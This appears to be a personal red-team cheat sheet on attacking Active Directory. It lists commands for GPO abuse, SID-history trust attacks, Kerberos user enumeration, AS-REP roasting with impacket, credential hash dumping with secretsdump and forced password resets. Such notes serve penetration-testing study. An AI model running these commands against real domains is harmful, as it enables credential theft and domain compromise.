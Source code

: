 ### GPOs
- Attacks
  - Addin rights to user
  - adding local admin
  - creating scheduled task
    - group mebership, add account, send connection
- Get-DomainGPO
  - -Identity
  - -ComputerIdentity
  - Permissions
    - Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq 'SID'}
    - Get-GPO -GUID CN_VALUE
- Display Policy Groups
  - gpresult /r /user:name.name
  - gpresult /r /s COMPUTER
- Permissions
- Get-DomainGP
- Clues
  - search startup scritps: bat, vbs (writable)
  - Add Registry, software installation, startup/shutdown scritps, shortcut, scheduled tasks
  - check if point to a share + enuemrate permissions 

### AD Trusts
- Forest-Forest | Domain-Domain Authentication
- Domain trust mapping
- Get-DomainTrust
- Get-DomainTrustMapping
- Attack:
  - ExtraSids (Sid history) + Kerberoasting + ASEPRoasting
    - Sidhistory: sid of domain admin added to history of user = user can DCSync
      - sid filtering not enabled

## KERBEROS
- Authentication - Ticket - trusted third party

- Steps
  - Key Distribution Center (KDC) ==> generate Ticket Granting Ticket (TGT) ==> Ticket Granting Service
- Enumerate users
  - kerbrute userenum -d domain --dc domain string wordlist.txt
  
- *find user without password*
  - python3 /opt/impacket/exampes/getNPusers.py domain/user -no-pass -dc-ip $target

- dump hashes
  - /opt/impacket/exampes/secretsdump example.local/username:password@<target-ip>
  - /opt/impacket/exampes/secretsdump.py user@$target

- Rubel.exe (in the victim's machine) to find hashes

### Commands
- Reset password
  - set-ADAccountPassword USER -Reset -NewPassword (Read-Host -AsSecurestring -Prompt '123456') - Verbose
  - Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose
